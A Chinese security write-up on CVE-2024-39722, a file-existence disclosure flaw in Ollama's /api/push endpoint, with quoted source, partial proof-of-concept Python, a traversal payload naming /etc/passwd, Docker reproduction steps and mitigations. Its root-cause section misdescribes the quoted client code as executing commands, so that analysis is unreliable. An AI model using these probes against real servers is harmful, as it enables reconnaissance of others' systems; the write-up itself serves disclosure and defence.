



# CVE-2024-39722: Ollama 模型/文件存在性漏洞成因探究及完整利用过程-先知社区

> **来源**: https://xz.aliyun.com/news/17959  
> **文章ID**: 17959

---

# CVE-2024-39722: Ollama 模型/文件存在性漏洞

## 1. 漏洞概述

CVE-2024-39722 是一项在 Ollama 应用程序中发现的路径遍历漏洞。此漏洞影响 Ollama 0.1.45 及更早版本。攻击者可利用此漏洞通过 Ollama API 的 `/api/push` 端点探测服务器上是否存在特定文件或目录。该漏洞的 CVSS 评分为 7.5（高危），表明其具有较高的潜在风险。成功利用此漏洞可能导致敏感信息泄露，例如确认服务器上特定模型文件或其他配置文件的存在。

受影响的 Ollama 版本：`< 0.1.46`。

## 2. 技术细节

此漏洞源于 Ollama 处理 `/api/push` API 请求时对用户提供的模型名称缺乏充分的验证和清理。当用户尝试推送一个模型时，Ollama 服务器会检查该模型是否存在。如果模型名称被构造成一个文件路径（例如，使用路径遍历序列如 `../../..`），服务器的响应（或缺乏错误响应）可以间接揭示该路径在服务器上是否有效。

具体来说，当向 `/api/push` 端点发送一个包含特定 `name` 字段（通常格式为 `model_name:tag`）的 JSON 请求时，如果服务器上存在与该 `name` 对应的模型（或在路径遍历情况下，对应的文件/目录），服务器的响应行为会与不存在时不同。攻击者可以通过观察这些响应差异来推断文件或目录的存在。

具体受影响的代码位于`cmd/interactive.go`中的`loadModel`函数

```
func loadModel(cmd *cobra.Command, opts *runOptions) error {
    client, err := api.ClientFromEnvironment()
    if err != nil {
        return err
    }

    p := progress.NewProgress(os.Stderr)
    defer p.StopAndClear()

    spinner := progress.NewSpinner("")
    p.Add("", spinner)

    showReq := api.ShowRequest{Name: opts.Model}
    showResp, err := client.Show(cmd.Context(), &showReq)
    if err != nil {
        return err
    }
    opts.MultiModal = slices.Contains(showResp.Details.Families, "clip")
    opts.ParentModel = showResp.Details.ParentModel

    if len(showResp.Messages) > 0 {
        opts.Messages = append(opts.Messages, showResp.Messages...)
    }

    chatReq := &api.ChatRequest{
        Model:    opts.Model,
        Messages: []api.Message{},
    }

    if opts.KeepAlive != nil {
        chatReq.KeepAlive = opts.KeepAlive
    }

    err = client.Chat(cmd.Context(), chatReq, func(resp api.ChatResponse) error {
        p.StopAndClear()
        if len(opts.Messages) > 0 {
            for _, msg := range opts.Messages {
                switch msg.Role {
                case "user":
                    fmt.Printf(">>> %s
", msg.Content)
                case "assistant":
                    state := &displayResponseState{}
                    displayResponse(msg.Content, opts.WordWrap, state)
                    fmt.Println()
                    fmt.Println()
                }
            }
        }
        return nil
    })
    if err != nil {
        return err
    }

    return nil
}
```

关键在于

```
    showReq := api.ShowRequest{Name: opts.Model}
    showResp, err := client.Show(cmd.Context(), &showReq)
...
    chatReq := &api.ChatRequest{
        Model:    opts.Model,
        Messages: []api.Message{},
    }
```

这段代码的作用是执行命令并将命令执行的结果传递给`chatReq`。由于程序没有对命令执行的结果进行处理，所以会直接返回“文件不存在”对应的响应或是“文件存在”对应的响应，使得恶意用户可以根据响应判断文件系统结构。

以上结论也可以通过查看ollama版本变更的记录（[Comparing v0.1.45...v0.1.46 · ollama/ollama](https://github.com/ollama/ollama/compare/v0.1.45...v0.1.46)）得到验证



## 3. 漏洞利用详解

以下从获取payload到发送请求演示了利用此漏洞的完整过程，包括了版本检查、爬取ollama模型信息、发送恶意请求等步骤。详细过程如下：

### 3.1. 目标版本检查

首先尝试通过访问目标 Ollama 服务器的 `/api/version` 端点来获取其版本号。

```
# ... (部分代码)
def check_ollama_version(base_url):
    # ...
    version_url = f"{base_url}/api/version"
    response = requests.get(version_url, timeout=5)
    # ...
    is_vulnerable = is_version_vulnerable(version)
    # ...

def is_version_vulnerable(version):
    # ...
    # Check if version is <= 0.1.45
    if major == 0 and minor == 1 and patch <= 45:
        return True
    # ...
```

如果版本高于 0.1.45，就认为目标不易受此特定脚本的攻击。

### 3.2. 爬取已知模型

脚本包含一个功能，可以从 `https://ollama.com/library` 爬取公开的 Ollama 模型列表，并将模型名称和标签保存到 `links.json` 文件中。

```
# ... (部分代码)
def crawl_ollama_models(url="https://ollama.com/library", ...):
    # ...
    infos = extract_model_links(html, base_url)
    # ...
    with open(output_file, "w", encoding="utf-8") as f:
        json.dump(infos, f, ensure_ascii=False, indent=4)
    # ...
```

这一步的目的是生成一个潜在的模型名称列表，用于后续的探测（遍历所有已知的模型）。

### 3.3. 构建和发送恶意请求

脚本从 `links.json`（或其他来源）读取模型名称和标签，并为每个组合构建一个 JSON payload。payload 的格式如下：

```
{
  "name": "model_name:tag", // 这里的 model_name 可以被构造成路径遍历字符串
  "insecure": true,
  "stream": true
}
```

然后，脚本将这些 payload 通过 POST 请求发送到目标 Ollama 服务器的 `/api/push` 端点。

```
# ... (部分代码)
def exploit_ollama_server(url="http://localhost:11434/api/push", ...):
    # ...
    for i in range(len(data)):
        for j in range(len(data[i]['tags'])):
            payloads.append({
                "name": data[i]['name']+":"+data[i]['tags'][j],
                "insecure": True,
                "stream": True,
            })
    # ...
    # (在 worker 函数中)
    result = send_api_request(url=url, payload=payload)
    if result and "error" not in result:
        # ... 标记为泄露
```

### 3.4. 分析响应

脚本通过检查来自 `/api/push` 端点的响应来判断模型（或文件路径）是否存在。如果响应中不包含 "error" 字符串，就认为对应的模型名称（或被探测的路径）是存在的，并将其标记为 "leaked model"。  
这意味着服务器尝试处理该推送请求，而不是因为找不到模型（或路径无效）而立即报错。

例如，攻击者可以将 payload 中的 `name` 设置为类似 `../../../../etc/passwd:latest` 的形式。如果服务器配置不当且存在此文件，即使没有名为 `../../../../etc/passwd:latest` 的模型，服务器的响应也可能与请求一个完全不存在的随机模型名称不同，从而泄露 `/etc/passwd` 文件的存在。

## 4. 复现过程

首先开一个docker环境

```
docker run -v ollama:/root/.ollama -p 11434:11434 --name ollama ollama/ollama:0.1.45
```

然后运行poc脚本：[srcx404/CVE-2024-39722](https://github.com/srcx404/CVE-2024-39722/tree/main)

```
python CVE_2024_39722.py -c -u http://localhost:11434
```

该脚本会通过先爬取ollama library中已经发布的模型，将信息存储到本地的json文件，然后根据获取到的模型列表逐个构造payload，以多线程的方式发送恶意请求到ollama服务器，然后根据返回的响应判断模型是否存在。

该脚本还有额外的参数

* `-h, --help`: 显示帮助信息并退出。
* `-u URL, --url URL`: 目标 Ollama 服务器 URL (例如: `http://localhost:11434`)。
* `-c, --crawl`: 爬取 Ollama 模型库并将其保存到 `links.json`。
* `-o OUTPUT, --output OUTPUT`: 结果输出文件 (默认: `results.json`)。
* `-t THREADS, --threads THREADS`: 用于漏洞利用的线程数 (默认: 10)。
* `-v, --version-check`: 仅根据版本检查目标 Ollama 服务器是否存在漏洞。

运行结果





## 5. 影响与危害

* **信息泄露:** 攻击者可以确认服务器上特定文件或目录的存在，包括敏感的配置文件、源代码文件、数据文件或已下载的 Ollama 模型。
* **辅助其他攻击:** 了解服务器的文件结构可以帮助攻击者策划进一步的攻击，例如寻找其他漏洞或利用已知的配置文件弱点。
* **暴露模型库:** 攻击者可以枚举出服务器上部署了哪些 Ollama 模型。

## 6. 缓解与修复建议

* **升级 Ollama:** 将 Ollama 升级到 **0.1.46 或更高版本**。根据公开信息，此漏洞已在 0.1.46 版本中修复。
* **输入验证与清理:** 在服务器端对所有用户输入（特别是用作文件路径或模型名称的输入）进行严格的验证和清理，以防止路径遍历字符。
* **最小权限原则:** 以最小必要权限运行 Ollama 服务，限制其对文件系统的访问。
* **网络隔离:** 将 Ollama 服务器部署在隔离的网络环境中，并使用防火墙限制对其 API 端点的访问，仅允许受信任的来源访问。
* **监控与日志:** 监控对 Ollama API 的异常请求，特别是针对 `/api/push` 端点的可疑模式。
* **规范输出：** 确保 API 响应中不包含敏感信息，尤其是在错误情况下。

## REF

[Comparing v0.1.45...v0.1.46 · ollama/ollama](https://github.com/ollama/ollama/compare/v0.1.45...v0.1.46)  
[srcx404/CVE-2024-39722](https://github.com/srcx404/CVE-2024-39722/tree/main)
